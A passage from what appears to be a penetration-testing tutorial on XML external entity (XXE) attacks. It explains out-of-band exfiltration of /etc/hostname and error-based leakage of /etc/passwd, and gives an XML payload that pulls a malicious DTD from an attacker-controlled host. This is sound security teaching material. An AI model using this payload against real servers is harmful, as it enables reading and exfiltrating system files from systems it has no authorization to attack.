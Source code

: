 This payload defines an XML parameter entity `%xxe` and incorporates it within the DTD. When processed by an XML parser, this payload fetches the external DTD from the attacker's server. The parser then interprets the DTD inline, executing the steps outlined in the malicious DTD and leading to the exfiltration of the `/etc/hostname` file to the attacker's server.

### Error Based(External DTD)

**In this case we are going to make the server loads a malicious DTD that will show the content of a file inside an error message (this is only valid if you can see error messages).** [**Example from here.**](https://portswigger.net/web-security/xxe/blind)

An XML parsing error message, revealing the contents of the `/etc/passwd` file, can be triggered using a malicious external Document Type Definition (DTD). This is accomplished through the following steps:

1. An XML parameter entity named `file` is defined, which contains the contents of the `/etc/passwd` file.
2. An XML parameter entity named `eval` is defined, incorporating a dynamic declaration for another XML parameter entity named `error`. This `error` entity, when evaluated, attempts to load a nonexistent file, incorporating the contents of the `file` entity as its name.
3. The `eval` entity is invoked, leading to the dynamic declaration of the `error` entity.
4. Invocation of the `error` entity results in an attempt to load a nonexistent file, producing an error message that includes the contents of the `/etc/passwd` file as part of the file name.

The malicious external DTD can be invoked with the following XML:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

Upon execution, the web server's response should include an error message displaying the contents of the `/etc/passwd` file.

![](<../images/image (809).png>)

_**Please notice that external DTD allows us to include one entity inside the second (\*\***`eval`\***\*), but it is prohibited in the internal DTD. Therefore, you can't force an error without using an external DTD (usually).**_

### **Error Based (system DTD)**
